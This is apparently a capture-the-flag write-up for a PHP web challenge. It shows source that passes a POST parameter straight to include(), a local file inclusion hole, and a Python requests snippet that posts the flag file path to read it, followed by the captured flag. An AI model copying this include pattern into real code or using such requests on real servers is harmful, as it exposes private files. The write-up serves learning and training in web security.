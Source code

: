 # Alien inclusion (web, 50p, 149 solved)

## Description

```
Keep it local and you should be fine. The flag is in /var/www/html/flag.php.

Flag format: CTF{sha256}
```

In the task we get access to a simple webpage.

## Task analysis

Webpage displays the source:

```php
<?php

if (!isset($_GET['start'])){
    show_source(__FILE__);
    exit;
} 

include ($_POST['start']);
echo $secret; 
```

## Solution

Initially it seemed problematic.
We can include given file, but how do we assign the variable?
We can't include a remote file.

It turned out to be much simpler, we just run:

```python
url = "http://34.89.211.188:32193/?start"
r = requests.post(url, data={"start": "/var/www/html/flag.php"})
print(r.text)
```

And get: `ctf{b513ef6d1a5735810bca608be42bda8ef28840ee458df4a3508d25e4b706134d}`
